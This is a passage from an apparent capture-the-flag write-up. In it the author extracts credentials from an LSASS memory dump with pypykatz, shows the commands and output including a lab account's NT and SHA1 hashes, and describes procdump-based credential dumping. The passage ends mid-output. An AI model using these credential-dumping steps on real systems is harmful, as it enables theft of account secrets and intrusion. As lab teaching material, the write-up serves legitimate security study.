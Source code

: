 
It’s a series of Zip archives, and inside each is a memory dump file.

### Extract Hashes

Immediately I’m drawn to `lsass.zip`.
[Mimikatz](https://github.com/gentilkiwi/mimikatz) first came to promenance
because it would dump plaintext credentials and hashes from `lsass.exe` As
anti-virus started catching on to that, attackers pivoted. A [well known
technique](https://attack.mitre.org/techniques/T1003/) is to use
`procdump.exe` from [Sysinternals](https://docs.microsoft.com/en-
us/sysinternals/) (and signed by Microsoft) to dump `lsass.exe` and then exfil
that memory dump and extract hashes from it in the attacker controlled space.

I’ll unzip `lsass.zip` and it gives a 137MB Mini Dump, which is the memory
from the process at the time of capture:

    
    
    root@kali# unzip lsass.zip 
    Archive:  lsass.zip
      inflating: lsass.DMP               
    root@kali# file lsass.DMP 
    lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
    root@kali# ls -lh lsass.DMP 
    -rwxrwx--- 1 root vboxsf 137M Feb 23 11:02 lsass.DMP
    

I could move this over to a Windows VM, but there’s a Mimikatz alternative,
[pypykatz](https://github.com/skelsec/pypykatz) which will work just fine.
I’ll install it with `pip3 install pypykatz`. [This
blog](https://en.hackndo.com/remote-lsass-dump-passwords/#linux--windows) has
a good section on dumping with `pypykatz` from Linux. It dumps a bunch of
information:

    
    
    root@kali# pypykatz lsa minidump lsass.DMP
    INFO:root:Parsing file lsass.DMP                          
    FILE: ======== lsass.DMP =======                          
    == LogonSession ==
    authentication_id 406458 (633ba)                    
    session_id 2
    username svc_backup                        
    domainname BLACKFIELD                               
    logon_server DC01
    logon_time 2020-02-23T18:00:03.423728+00:00
    sid S-1-5-21-4194615774-2175524697-3563712290-1413  
    luid 406458
            == MSV ==                          
                    Username: svc_backup                      
                    Domain: BLACKFIELD   
                    LM: NA                              
                    NT: 9658d1d1dcd9250115e2205d9f48400d
                    SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
            == WDIGEST [633ba]==                              
                    username svc_backup
                    domainname BLACKFIELD
                    password None                             
            == SSP [633ba]==             
                    username                   
                    domainname
                    password None
            == Kerberos ==
                    Username: svc_backup                      
                    Domain: BLACKFIELD.LOCAL   
                    Password: None                            
            == WDIGEST [633ba]==                              